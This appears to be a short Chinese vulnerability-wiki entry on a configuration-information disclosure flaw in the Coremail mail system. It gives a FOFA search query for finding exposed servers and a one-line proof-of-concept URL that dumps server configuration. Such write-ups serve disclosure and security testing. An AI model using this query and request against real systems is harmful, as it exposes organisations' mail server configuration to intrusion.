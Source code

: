 # Coremail 配置信息泄露漏洞

##  漏洞描述

Coremail 某个接口存在配置信息泄露漏洞，其中存在端口，配置信息等

## 漏洞影响

> [!NOTE]
>
> Coremail 配置信息泄露漏洞

## FOFA

> [!NOTE]
>
> app="Coremail邮件系统"

## 漏洞复现

POC为

```
http://xxx.xxx.xxx.xxx/mailsms/s?func=ADMIN:appState&dumpConfig=/
```

![](http://wikioss.peiqi.tech/vuln/co-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> Coremail configuration information disclosure

![](http://wikioss.peiqi.tech/vuln/co-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)